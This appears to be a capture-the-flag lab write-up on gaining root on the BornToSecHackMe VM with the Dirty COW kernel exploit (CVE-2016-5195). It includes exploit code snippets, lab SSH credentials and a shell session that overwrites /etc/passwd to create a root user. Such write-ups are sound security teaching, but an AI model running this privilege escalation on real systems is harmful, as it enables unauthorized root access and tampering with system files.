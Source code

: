# Dirty COW

```shell
$ ssh laurie@192.168.56.101
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
laurie@BornToSecHackMe:~$
```
Since we can login with a normal user `laurie` [after exploiting FTP](https://github.com/4slan/boot2root/blob/main/writeup1.md#ssh-laurie---diffusing-the-bomb), from this point we can execute a [Dirty COW attack](https://github.com/FireFart/dirtycow/blob/master/dirty.c). 

This vulnerability has CVE identifier [CVE-2016-5195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-5195).

```shell
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The vulnerability has existed in the Linux kernel since version 2.6.22 and has been patched in version 4.8.3.</br>
Our boot2root linux is surely affected.

```c
f = open(filename, O_RDONLY);
fstat(f, &st);
map = mmap(NULL, st.st_size + sizeof(long), PROT_READ, MAP_PRIVATE, f, 0);
```
The exploit script firstly create a private copy of a read-only file by calling `mmap`.

```c
pid = fork();
if (pid)
	/* ... */
else {
	pthread_create(&pth, NULL, madviseThread, NULL);
	ptrace(PTRACE_TRACEME);
	kill(getpid(), SIGSTOP);
	pthread_join(pth,NULL);
}
```
Next it calls `fork` to create a race condition. The new thread calls `madvise` function to tell the OS to dump the private copy during the procedure of writing data. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.


When we run the script, it writes a new root to `/etc/passwd` which we don't have writable permission.
```shell
laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiDFcnMz5E5z6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '42'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Once execution done, we can log as `firefart:42`
```shell
laurie@BornToSecHackMe:~$ su firefart
Password: 42
firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
```
